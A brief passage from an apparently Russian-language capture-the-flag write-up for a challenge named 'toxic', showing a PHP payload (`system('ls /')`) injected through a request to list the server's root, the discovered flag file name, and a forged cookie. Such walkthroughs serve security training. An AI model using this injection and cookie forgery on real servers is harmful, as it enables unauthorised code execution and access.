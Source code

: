 Теперь надо узнать название флага. Запустим скрипт в запросе.

    <?php system('ls /');?>

![](imgs/toxic/response3.png)

Имя файла на сервере - `flag_yxj56`. Подделаем куки.

![](imgs/toxic/new_cookie3.png)
